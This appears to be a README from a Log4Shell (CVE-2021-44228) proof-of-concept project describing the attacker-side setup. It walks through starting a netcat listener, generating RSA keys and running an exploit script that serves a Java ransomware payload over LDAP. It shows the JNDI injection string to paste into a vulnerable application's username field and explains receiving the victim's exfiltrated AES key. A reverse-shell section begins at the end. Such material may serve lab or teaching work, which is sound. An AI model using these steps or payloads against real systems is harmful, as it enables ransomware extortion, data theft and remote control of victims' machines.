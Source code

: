 # Attacker Machine

You will find some scripts that automate some of the processes that lead to the results.
We suggest you to follow the steps below to set everything up.

## LDAP Server

```bash
$ mvn package
```

## Exploit

### Requirements:
```bash
£ pip install -r requirements.txt
```

### Usage:
Start a netcat listener to gain information or control of victim machine.
```bash
$ nc -lvnp 9001
```

#### Ransomware.java:
You will find a Ransomware POC that can be used to encrypt victim's data. To make everything work you shall follow these steps: 

1. Generate RSA key pair, default output folder is *./RSA_KEYS*:
```bash
$ python3 rsa-keygen.py
```
2. Run the exploit script, which will start up a LDAP server that will serve the chosen malware:
```bash
$ python3 exploit.py ./attacker/exploit/Ransomware.java --ip localhost --port 8000 --ncport 9001

[!] CVE: CVE-2021-44228
[!] Log4j vulnerability POC tool
Loading malicious code file attacker/exploit/Ransomware.java

[+] Ransomware.java class created success
[+] Setting up LDAP server
                                                    
[+] Send me: ${jndi:ldap://localhost:1389/a}

[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Listening on 0.0.0.0:1389
```
3. Then you shall past the "Send me" value in the username field of the vulnerable web application
4. You will receive on your netcat listener the AES key encrypted with your generated RSA public key
5. Use the decrypt script to get a base64 encoded and decrypted AES key:
```bash
$ python3 decrypt.py MxZYTyiIW9C1ROhMcRRdZZFHtAEuQzRaVfm+jGWTXs974ynhES...
```

#### ReverseShell.java:
